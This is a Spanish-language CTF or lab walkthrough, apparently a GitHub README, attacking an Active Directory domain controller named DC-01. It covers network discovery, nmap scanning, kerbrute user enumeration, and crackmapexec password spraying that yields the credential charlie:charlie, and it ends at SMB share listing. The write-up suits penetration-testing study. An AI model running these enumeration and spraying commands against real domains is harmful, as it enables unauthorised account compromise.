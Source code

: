 # DC-01
![image](https://github.com/user-attachments/assets/3b8550e1-c0da-44db-9c15-4737cf6c4c88)

## Reconocimiento
Lo primero que tenemos que hacer es identificar nuestro objetivo, ver la IP del DC.
En mi caso, lo hago con la herramienta netdiscover
```
ip a
```
![image](https://github.com/user-attachments/assets/ac69d664-356c-4eed-873f-e8e1ca5fb931)

```
sudo netdiscover -i eth0 -r 14.14.1.0/24
```
 ![image](https://github.com/user-attachments/assets/35f9a5af-e37d-4e87-aaed-86cef28770ce)

Una vez identificamos el host, con IP 14.14.1.28, vamos a realizar un escaneo de puertos con la herramienta NMAP, en concreto voy a utilizar mi herramienta automatizada para escaneos de NMAP [autonmap](https://github.com/BanYio/AutoNMAP).

![image](https://github.com/user-attachments/assets/8707694a-3395-44c9-85bf-d7bdfcdbe88d)

Como era de esperar, al ser un DC hay muchos puertos abiertos, de momento nos vamos a centrar en kerberos (88), rpc (135), smb (445), ldap (389) y por último, vemos que tiene habilitado el puerto 5985, winrm.

![image](https://github.com/user-attachments/assets/660fe9ed-3d96-467c-bf26-70bba92406f5)
 
Lo primero que he hecho ha sido identificar el dominio y añadirlo en el fichero /etc/hosts
```
crackmapexec smb 14.14.1.28
```
![image](https://github.com/user-attachments/assets/be201d57-2415-4f50-bc6b-163856d703ee)

Tras intentar enumerar usuarios mediante LDAP, rpcclient o smb con null sessions o incluso con la herramienta kerbrute para ver usuarios válidos del dominio.
```
kerbrute -domain SOUPEDECODE.LOCAL -dc-ip 14.14.1.29 -users /usr/share/seclists/Usernames/xato-net-10-million-usernames-dup.txt
```
![image](https://github.com/user-attachments/assets/bf34ed20-30b4-49f6-912a-56164ed44f3e)

## Explotación
```
crackmapexec smb 14.14.1.29 -u valid_ADUsers.txt -p valid_ADUsers.txt --no-brute
```
![image](https://github.com/user-attachments/assets/2a8cd225-712a-4c3a-989f-5ff00896f1ed)
 
Tenemos un usuario valido:
```
charlie:charlie
```
Enumeramos carpetas compartidas y no encontramos nada raro
```
crackmapexec smb 14.14.1.29 -u 'charlie' -p 'charlie' –shares
```
![image](https://github.com/user-attachments/assets/aa928dc3-dc9a-475c-9e99-fa11393f056b)
 
